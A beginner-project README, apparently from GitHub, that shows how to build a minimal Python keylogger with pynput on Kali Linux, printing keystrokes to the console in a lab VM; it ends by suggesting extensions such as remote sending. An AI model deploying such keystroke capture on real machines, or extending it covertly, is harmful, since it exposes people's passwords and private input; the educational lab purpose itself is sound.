




# Keylogger Basics – Beginner Cybersecurity Project

This project demonstrates how to build a **simple Python keylogger** using `pynput`. It runs on **Kali Linux** in a **safe, virtualized lab environment** and captures keystrokes for educational purposes.

⚠️ **Educational Use Only** – Do not use this on any system without explicit permission.

---

## Step 0: Set Up Python Environment

Kali restricts global package installs due to PEP 668.

✅ **Solution: Use a Virtual Environment**
```bash
sudo apt update
sudo apt install python3-pip python3-venv
python3 -m venv myenv
source myenv/bin/activate
pip install pynput
```


## Step 1: Set Up Python Virtual Environment

```bash
sudo apt install python3-venv
python3 -m venv myenv
source myenv/bin/activate
```

📸 Screenshots:
  


## Step 2: Install pynput Package

```bash
pip install pynput
```

📸 Screenshot:  


## Step 3: Write the Keylogger Script

Create a file named `keylogger.py` with the code below:

```python
from pynput import keyboard

def on_press(key):
    try:
        print(f"Key pressed: {key.char}")
    except AttributeError:
        print(f"Special key pressed: {key}")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

📸 Screenshot:  



## Step 4: Run the Keylogger

```bash
python3 keylogger.py
```

📸 Screenshot:  



## Step 5: Handle Errors (if any)

If you encountered environment or install issues, check:

📸 Screenshots:  
  



## Step 6: Deactivate the Environment

```bash
deactivate
```


## What You Learned

- How to use Python virtual environments securely.
- How to install and use `pynput` to capture keystrokes.
- How keyloggers function at a basic level.


## Notes

- Use only in safe, sandboxed environments (like Kali VM).
- This keylogger logs to the console only.


## Project Status

**✅ Completed** – Extend with file logging, remote sending, or timestamping (only in safe lab conditions).